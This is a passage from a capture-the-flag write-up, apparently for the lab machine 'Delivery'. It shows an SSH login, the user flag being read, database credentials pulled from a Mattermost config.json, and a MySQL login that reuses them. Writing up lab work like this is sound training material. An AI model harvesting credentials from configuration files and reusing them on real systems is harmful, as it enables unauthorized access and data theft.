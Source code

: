     $ ssh maildeliverer@10.10.10.222
    maildeliverer@10.10.10.222's password: 

    maildeliverer@Delivery:~$ id
    uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)

// And user flag !

    maildeliverer@Delivery:~$ cat user.txt 
    1e5bea023................

### -------Privilleges Escalation--------

// Searching the target machine for intersting files

// I see the mattermost config directory inside /opt

// There i found file called 'config.json' with database credentials

    maildeliverer@Delivery:/opt/mattermost/config$ cat config.json 
    ...
        },
        "SqlSettings": {
            "DriverName": "mysql",
            "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
            "DataSourceReplicas": [],
            "DataSourceSearchReplicas": [],
            "MaxIdleConns": 20,
            "ConnMaxLifetimeMilliseconds": 3600000,
            "MaxOpenConns": 300,
            "Trace": false,
            "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
            "QueryTimeout": 30,
            "DisableDatabaseSearch": false
    ...

// Lets try to connect the database with this credentials

    $ mysql -u mmuser -pCrack_The_MM_Admin_PW mattermost
-----
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 157
    Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    MariaDB [mattermost]>

// It worked !, now lets search for information

    MariaDB [mattermost]> SHOW DATABASES;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | mattermost         |
    +--------------------+
    2 rows in set (0.000 sec)
------
